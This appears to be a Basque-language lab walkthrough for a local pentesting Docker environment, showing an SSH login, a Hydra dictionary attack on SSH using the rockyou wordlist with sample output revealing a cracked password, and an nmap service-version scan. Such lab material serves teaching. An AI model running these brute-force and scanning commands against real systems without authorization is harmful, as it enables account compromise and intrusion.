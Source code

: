 ## SSH zerbitzura konektatu

Hurrengo aginduaren bitartez konekta ginateke, adi kontenedorearen izena erabil ahal izateko kali kontenedorearen sare berdinean egon behar dela. Bestela, ip helbidea erabil genezake.

```bash
ssh user@openssh-server -p 2222
```
- user : erabiltzailearen izena
- @openssh-server : serbitzariaren helbidea (izena edo ipea)
- -p 2222 : protokoloa erabiltzen ari den portua (defektuz 22)

##  Erasoa Hydra erabiliz

FTP protokoloarekin bezala, hydra erabiliko dugu rockyou-ko pasahitzak frogatzeko.

```bash
hydra -l sinfor -P /usr/share/wordlists/rockyou.txt ssh://openssh-server -s 2222 -t 15
```
- -l sinfor : erabiltzailea
- -P /usr/share/wordlist/rockyou.txt : pasahitzak (P mayuskula denez, dikzionario bat erabiliko dugu)
- ssh://openssh-server : protokoloa eta zerbitzariaren helbidea (izena edo ipea)
- -s 2222 : Zerbitzariaren ssh portua
- -t 15 : Erasorako erabiliko diren thread kopurua

Honelako erantzun bat agertu beharko litzateke:

```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-31 09:06:45
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 15 tasks per 1 server, overall 15 tasks, 14344398 login tries (l:1/p:14344398), ~956294 tries per task
[DATA] attacking ssh://openssh-server:2222/
[2222][ssh] host: openssh-server   login: sinfor   password: louise
``` 

## Sistema eragilearen bertsioa ezagutu ssh protokoloaren bertsiotik

Nmap erabiliz, eskaneo bat egin dezakegu nmapeko scriptak erabiliz, hurrengo aginduarekin 

```bash
nmap -sCV -p2222 openssh-server
```

Antzerako erantzuna itzuli beharko luke:

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-31 09:15 UTC
Nmap scan report for openssh-server (172.18.0.3)
Host is up (0.00011s latency).
rDNS record for 172.18.0.3: openssh-server.hacking-lab_pentesting-lab-network

PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 9.3 (protocol 2.0)
| ssh-hostkey: 
|   256 08:0f:46:12:4b:40:b1:16:bf:62:54:23:04:54:bf:65 (ECDSA)
|_  256 3f:77:a0:1d:6f:b7:59:ea:f2:a6:7a:a5:2a:75:9b:45 (ED25519)
MAC Address: 02:42:AC:12:00:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```